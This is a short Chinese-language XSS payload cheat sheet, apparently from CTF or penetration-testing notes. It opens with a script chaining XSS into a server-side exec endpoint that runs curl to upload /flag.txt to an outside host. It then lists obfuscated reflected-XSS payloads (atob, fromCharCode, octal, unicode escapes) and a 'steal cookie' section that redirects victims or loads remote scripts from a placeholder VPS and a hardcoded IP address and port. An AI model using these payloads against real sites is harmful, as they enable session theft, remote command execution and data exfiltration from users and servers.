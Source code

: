 ```javascript
<script>fetch('exec.php',{method:'POST',headers:{'content-type':'application/x-www-form-urlencoded'},body:'command='+encodeURIComponent('curl xss.zsxsoft.com:23457 -F"a=@/flag.txt"')+'&exec=1'}).then(p=>p.text()).then(p=>fetch('main.php',{method:'POST',headers:{'content-type':'application/x-www-form-urlencoded'},body:'comment='+p}))</script>

<iframe srcdoc="<script>fetch('exec.php',{method:'POST',headers:{'content-type':'application/x-www-form-urlencoded'},body:'command='+encodeURIComponent('')}).then(p=>p.text()).then(p=>fetch('main.php',{method:'POST',headers:{'content-type':'application/x-www-form-urlencoded'},body:'comment='+p}))</script> "></iframe>
```



#### 常见标签

反射XSS语句

```
<body/onfocus=alert(/xss/)>

<video src=1 onerror=alert(/xss/)>
<audio src=x onerror=alert(/xss/)>

<button onfocus=alert(/xss/) autofocus>

<details open ontoggle=top.alert(1)>
<details open ontoggle=top['prompt'](1)>
<details open ontoggle=eval(‘alert(1)’) >
<details open ontoggle=eval(atob('YWxlcnQoMSk=')) >
<details open ontoggle=eval('\141\154\145\162\164\50\61\51') >
<details open ontoggle=eval(String.fromCharCode(97,108,101,114,116,40,49,41)) >
<details open ontoggle=eval("appendChild(createElement('script')).src='http://vps_ip'") >

<img src=x onerror=window['eva'+'l'](alert(1)) >
<img src=x onerror=_=alert,_(/xss/) >
<img src=x onerror=_='e'+'val',_(alert(1)) >

<iframe onload=location='javascri'.concat('pt:aler','t(1)')>
<iframe srcdoc="<img src=x:x onerror=alert(1)>" />
<iframe onload=location=['java','script:','alert(1)'].join("")>

<body/onload=document.write(String.fromCharCode(60,115,99,114,105,112,116,62,97,108,101,114,116,40,49,41,60,47,115,99,114,105,112,116,62)) >
```

XSS窃取cookie

```
<details open ontoggle="javascript:document.location='http://vps_ip'">
<video src=1 onerror="javascript:document.location='http://vps_ip'">
<iframe onload=location='javascri'.concat("pt:document",".location=","'http://vps_ip'")>
<iframe onload=s=createElement('script');body.appendChild(s);s.src='http://120.77.176.1'.concat('68:111','22'); >
<iframe onload=s=createElement('script');body.appendChild(s);s.src='http://120.77.176.1'.\u0063oncat('68:111','22'); >
<iframe onload=location=["java","script:","document.location=","'http://vps_ip'"].join("")>
<body/onload=document.write(String.fromCharCode(60,115,67,114,73,112,116,32,115,114,67,61,39,104,116,116,112,58,47,47,49,50,48,46,55,55,46,49,55,54,46,49,54,56,58,49,49,49,50,50,39,62,60,47,115,67,82,105,112,84,62)) >
<svg/onload=setTimeout("\u006a\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003a\u0064\u006f\u0063\u0075\u006d\u0065\u006e\u0074\u002e\u006c\u006f\u0063\u0061\u0074\u0069\u006f\u006e\u003d\u0027\u0068\u0074\u0074\u0070\u003a\u002f\u002f\u0031\u0032\u0030\u002e\u0037\u0037\u002e\u0031\u0037\u0036\u002e\u0031\u0036\u0038\u003a\u0031\u0031\u0031\u0032\u0032\u0027")>
```
